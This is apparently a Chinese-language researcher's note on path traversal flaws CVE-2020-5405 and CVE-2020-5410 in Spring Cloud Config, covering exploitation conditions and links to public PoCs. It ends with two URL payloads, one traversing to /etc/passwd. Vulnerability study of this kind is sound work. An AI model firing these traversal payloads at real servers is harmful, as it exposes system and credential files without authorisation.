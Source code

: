 ## CVE-2020-5405 spring-cloud-config路径穿越导致的信息泄露

- 1、/etc/hosts无法读取；/etc/hosts.allow可以读取；/etc/ca-certificates.conf还可通过拼接读取。
- 2、路径穿越可以被利用的条件是：
在配置文件application.properties/application.yml中配置spring.profiles.active的值为本地文件系统native（一般是git的url?）；
- 3、没有后缀的文件（比如/etc/passwd）无法读取，因为有一个获取文件后缀名的逻辑，即便已经读到了文件内容但是由于没有后缀名出现异常然后响应500。

### Demo
![](imgs/WechatIMG879.png)

![](imgs/WechatIMG883.png)


## CVE-2020-5410 spring-cloud-config路径穿越导致的信息泄露


### Ref
- https://github.com/osamahamad/CVE-2020-5410-POC
- https://github.com/threedr3am/learnjavabug/blob/a13aad49c93c05e6fb9db7668a9de6b0b1106307/spring/spring-cloud-config-server-CVE-2020-5410/src/main/java/com/threedr3am/bug/spring/config/server/package-info.java
- https://xz.aliyun.com/t/7877

### PoC
```
/222.txt%23/cqq/..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29..%28_%29
```
这种poc好像只能穿越到上一层目录，
![](imgs/20200623164042.png)

```
/..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23111/222
```
后面这个poc能穿越到/

![](imgs/20200623164049.png)
